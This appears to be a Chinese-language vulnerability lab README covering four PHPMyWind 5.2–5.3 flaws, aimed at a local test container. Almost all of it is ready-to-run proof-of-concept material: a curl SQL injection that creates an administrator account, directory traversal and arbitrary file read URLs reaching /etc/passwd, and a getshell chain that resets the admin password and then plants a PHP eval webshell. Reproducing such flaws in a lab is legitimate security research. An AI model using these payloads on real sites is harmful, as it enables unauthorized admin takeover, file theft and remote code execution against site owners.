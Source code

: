 ## PHPMyWind<5.3 sql注入漏洞

测试镜像

* src/phpmywind/5.2

影响版本

* PHPMyWind <= 5.3

参考链接

* [phpmywind最新版sql注入以及后台目录遍历和文件读取](https://www.cnblogs.com/iamstudy/articles/phpmywind_v5-3.html)

Poc

访问页面`http://172.17.0.2/member.php?c=login`

注册任意账号登录前台（测试环境已注册账号test123/123456)

在浏览器控制台获取登录后的cookie，使用如下命令通过SQL注入添加用户名为1231235，密码为admin的管理员账号

```
curl --cookie "PHPSESSID=gvfhv03prfohb53h8755hrl784; username=ee03sU%2FKADizV%2BW%2Fsup0isaaA7h9xwvMcvwVi7wiPSEtVqbq; lastlogintime=861fvAR%2FyPuARgNBA868gqiKim9D%2F%2B9v9t99Jw0oIciGF4VMnLnK; lastloginip=03dewpw0n0mg%2FKsWjryMeVXxcrWCsdVAY6bqdqBkxsT18l1gtI7e" -d "username=123123a123x&password=a123123123&repassword=a123123123&email=a12312@qq.com&sql=insert into pmw_admin (\`username\`,\`password\`,\`levelname\`) values((1231235),0x6333323834643066393436303664653166643261663137326162613135626633,1)" "http://172.17.0.2/member.php?a=perfect"
```



## PHPMyWind<5.3后台目录遍历漏洞

测试镜像

- src/phpmywind/5.2

影响版本

- PHPMyWind <= 5.3

参考链接

- [phpmywind最新版sql注入以及后台目录遍历和文件读取](https://www.cnblogs.com/iamstudy/articles/phpmywind_v5-3.html)

Poc

使用管理员帐户（admin/admin）登录，访问url

`http://172.17.0.2/admin/upload_filemgr_dir.php?dirname=uploads/...././/...././/...././/...././/etc/`

(使用...././/来访问上级目录)



## PHPMyWind<5.3后台任意文件读取漏洞

测试镜像

- src/phpmywind/5.2

影响版本

- PHPMyWind <= 5.3

参考链接

- [phpmywind最新版sql注入以及后台目录遍历和文件读取](https://www.cnblogs.com/iamstudy/articles/phpmywind_v5-3.html)

Poc

使用管理员帐户（admin/admin）登录，访问url

`http://172.17.0.2/admin/editfile_update.php?filename=/../../../../../../etc/passwd`



## PHPMyWind 5.2 getshell

测试镜像

- src/phpmywind/5.2

影响版本

- PHPMyWind <= 5.2

参考链接

- [PHPMyWind 2014-2017 getshell](https://github.com/Mr5m1th/POC-Collect/tree/master/CMS/PHPMyWind/2014-2017)

Poc

通过SQL报错获取表名：

```shell
curl -d "uname=testaa union select 1&answer=2" "http://172.17.0.2/member.php?a=quesfind"
```

会返回SQL报错信息，其中包含数据库表前缀：

```html
<div style="font-family:'微软雅黑';font-size:12px;"><h3 style="margin:0;padding:0;line-height:30px;color:red;">PHPMyWind安全警告：请检查您的SQL语句是否合法，您的操作将被强制停止！</h3><strong>错误文件</strong>：/member.php<br /><strong>错误信息</strong>：SELECT `question`,`answer` FROM `pmw_member` WHERE `username`='testaa union select 1'||SelectBreak</div>
```

重置管理员密码为 admin

```shell
curl "http://172.17.0.2/4g.php?m=show&cid=2&tbname=pmw_admin\`%20SET%20password=0x6333323834643066393436303664653166643261663137326162613135626633%20WHERE%201=1%20or%20@\`%27\`%20--%20@\`%27\`"
```

使用admin/admin登录后台

```
http://172.17.0.2/admin/login.php
```

 数据库管理 -> 执行 SQL语句：

```SQL
insert into `pmw_webconfig`(`varname`, `varvalue`, `vartype`) values('test', 'file_put_contents("demo.php", \'<?php @eval($_POST[x]) ?>\')', 'number');
```

执行完成在后台站点配置管理中，使用任意配置添加一个新站点提交即可获得webshell：

```
http://172.17.0.2/admin/demo.php
```